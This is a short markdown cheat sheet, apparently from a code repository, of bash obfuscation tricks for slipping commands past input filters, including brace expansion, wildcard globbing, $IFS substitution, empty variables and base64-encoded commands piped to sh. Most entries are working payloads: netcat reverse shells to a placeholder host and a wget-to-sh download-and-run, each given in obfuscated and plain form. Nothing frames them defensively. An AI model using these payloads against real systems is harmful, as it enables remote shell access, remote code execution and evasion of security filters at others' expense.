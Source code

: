 # [bash brace expansion](https://jon.oberheide.org/blog/2008/09/04/bash-brace-expansion-cleverness/):
#### `{wget,-O,X.X.X.X}` == `wget -O X.X.X.X`
  * [archived](https://web.archive.org/web/20190920163100/https://jon.oberheide.org/blog/2008/09/04/bash-brace-expansion-cleverness/)

# [command globbing](https://linux.die.net/man/7/glob):
#### `/???/?i?/n?t??t X.X.X.X YYY -e /???/?h` == `/usr/bin/netcat X.X.X.X YYY -e /bin/sh`

# [command substitution](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html):
#### `ping $(cat /some/file)`

# [encoded commands](https://serverfault.com/questions/896695/how-do-i-run-a-command-from-a-base64-encoded-string-in-bash):
#### `base64 -d <<< <base64_encoded_command> | sh`
  * [archived](https://web.archive.org/web/20190920162754/https://serverfault.com/questions/896695/how-do-i-run-a-command-from-a-base64-encoded-string-in-bash)

# [$IFS](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces):
#### `wget${IFS}-O${IFS}-${IFS}http://X.X.X.X/script${IFS}|${IFS}sh` == `wget -O - http://X.X.X.X/script | sh`
  * [archived](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces)
  * $IFS acts as a space, tab, and newline but can be manipulated to do different things

# [uninitialized environment variables](https://www.digitalocean.com/community/tutorials/how-to-read-and-set-environmental-and-shell-variables-on-a-linux-vps):
#### `nc$k -e /bin$k/sh$k X.X.X.X YYY` == `nc -e /bin/sh X.X.X.X YYY`
  * [archived](https://web.archive.org/web/20190920162908/https://www.digitalocean.com/community/tutorials/how-to-read-and-set-environmental-and-shell-variables-on-a-linux-vps)
  * using a variable that isn't set to anything results in an empty string

